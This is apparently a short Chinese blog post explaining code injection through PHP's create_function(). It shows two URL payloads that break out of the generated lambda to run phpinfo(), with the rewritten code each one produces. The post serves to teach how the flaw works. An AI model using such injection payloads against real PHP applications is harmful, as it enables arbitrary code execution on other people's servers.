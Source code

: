 ```yaml
---
layout: post
title: create_function的用法
categories: [web,php]
---
```

## create_function(`$arg`,`$code`)函数  
>$args 声明的函数变量部分  
>$code 执行的方法代码部分  
现在构造一个
```php
	$func=create_function($args,'echo "xxxxx".$args');
	$func("hello");
```
create_function() 会创造一个匿名函数 (lambda样式) 
实际上等价于  
```php
	function lambda($args){
       echo "xxxxx".$args;
    }
```
而此时由于参数的传入，这里就存在漏洞  
### 第一种是对于code的注入  
>payload: ?args=1;}phpinfo();/*  
此时代码变为  
```php
	function lambda($args){
       echo "xxxxx".1;
    }
    phpinfo();/*;
    }
```

### 第二种是对于args的注入
>payload: ?args=){phpinfo();}/*  
此时代码变为
```php
	function lambda($args){
		phpinfo();
	}
	/*){
       echo "xxxxx".$args;
    }
```